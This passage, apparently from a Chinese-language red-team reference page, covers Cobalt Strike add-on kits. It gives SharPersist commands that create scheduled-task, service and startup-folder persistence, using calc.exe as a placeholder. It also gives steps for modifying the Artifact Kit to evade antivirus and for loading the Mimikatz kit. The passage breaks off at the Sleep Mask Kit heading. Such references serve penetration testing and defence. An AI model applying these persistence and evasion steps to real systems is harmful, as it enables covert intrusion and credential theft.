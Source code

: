 ### 持久化工具包

* https://github.com/0xthirteen/MoveKit

* https://github.com/fireeye/SharPersist

  ```powershell
  # 列出持久化项
  SharPersist -t schtaskbackdoor -m list
  SharPersist -t startupfolder -m list
  SharPersist -t schtask -m list
  
  # 添加持久化项
  SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Something Cool" -m add
  SharPersist -t schtaskbackdoor -n "Something Cool" -m remove
  
  SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Service" -m add
  SharPersist -t service -n "Some Service" -m remove
  
  SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add
  SharPersist -t schtask -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "Some Task" -m add -o hourly
  SharPersist -t schtask -n "Some Task" -m remove
  ```

### 资源工具包

> 资源工具包是 Cobalt Strike 用来更改其工作流程中使用的 HTA、PowerShell、Python、VBA 和 VBS 脚本模板的手段

### 构件工具包

> Cobalt Strike 使用构件工具包来生成其可执行文件和 DLL。构件工具包是一个源代码框架，用于构建可以规避某些杀毒软件产品的可执行文件和 DLL。构件工具包的构建脚本为每个构件工具包技术创建了一个包含模板构件的文件夹。要在 Cobalt Strike 中使用某项技术，请转到 Cobalt Strike -> 脚本管理器，并加载该技术文件夹中的 artifact.cna 脚本。

构件工具包（Cobalt Strike 4.0）- https://www.youtube.com/watch?v=6mC21kviwG4：

- 下载构件工具包：`转到帮助 -> 军械库以下载构件工具包（需要 Cobalt Strike 的授权版本）`
- 安装依赖项：`sudo apt-get install mingw-w64`
- 编辑构件代码
  * 更改管道名称字符串
  * 更改 `VirtualAlloc` 在 `patch.c`/`patch.exe` 中的，例如：HeapAlloc
  * 更改导入
- 构建构件
- Cobalt Strike -> 脚本管理器 > 加载 .cna

### Mimikatz 工具包

* 从军械库下载并提取 .tgz（注意：版本使用 Mimikatz 发布版本的命名（即，2.2.0.20210724）
* 加载 mimikatz.cna 攻击者脚本
* 正常使用 mimikatz 函数

### 睡眠面具工具包
